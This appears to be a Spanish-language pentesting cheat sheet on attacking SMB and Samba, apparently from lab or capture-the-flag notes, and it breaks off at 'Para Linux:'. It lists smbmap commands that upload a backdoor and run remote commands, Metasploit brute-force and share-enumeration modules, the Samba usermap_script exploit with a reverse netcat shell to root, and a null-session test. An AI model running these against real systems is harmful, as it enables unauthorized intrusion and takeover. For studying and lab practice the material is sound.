 >smbmap -H 192.168.1.1 -u Administrator -p 'password123' -r 'C$'     //lista los archivos de C$

>ssmbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor'

'C$\backdoor'  //cargamos un archivo desde el atacante a una ruta de la víctima

>smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download

'C$\flag.txt' //Descarga de un archivo

>smbmap -u guest -p "" -d . -H 10.0.28.123   //podemos probar con el user guest si pass.

> smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig' //-x para ejecutar

Metasploit

|   |   |
|---|---|
|msf>use auxiliary/scanner/smb/smb_version|Nos muestra la versión de Samba o SMB que está corriendo|
|msf>use auxiliary/scanner/smb/smb_enumshares|enumera shares|
|msf>use auxiliary/scanner/smb/smb_login|permite hacer ataque de fuerza bruta|
|msf(auxiliary/scanner/smb/smb_login)>set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt|passwords de la wordlist|
|msf(auxiliary/scanner/smb/smb_login)>set smbuser freddy|user que atacaremos|

Pipes: En Windows, son protocolos que permiten la comunicación entre procesos internos o con un host remoto

msf>use auxiliary/scanner/smb/pipe_auditor              //muestra los pipes que se puede acceder.

msf(scanner/smb/pipe_auditor)>set smbuser admin

msf(scanner/smb/pipe_auditor)>set smbpass pass123

msf(scanner/smb/pipe_auditor)>set rhosts 192.168.1.1

# Explotación SAMBA

|   |   |
|---|---|
|msf>use exploit/multi/samba/usermap_script|Username map script Command Execution. Ponemos el RHOST y vemos el reverse shell: cmd/unix/reverse_netcat. Nos da acceso a root directamente.|
|Shell>cat /etc/*issue|Pagina de inicio del servidor|
|Msf(exploit/multi/samba/usermap_script)>sessions -u 1|Upgrade a meterpreter|

Net use: Usar en Windows

>net use [\\192.168.100.1\IPC$](file://192.168.100.1/IPC$) ‘’ /u:’‘          //Para conectarnos a IPC$ usando un pass/user vacío

Si el comando funciona es porque el equipo es posiblemente vulnerable a Null Session y funciona solo con IPC$

Para Linux:
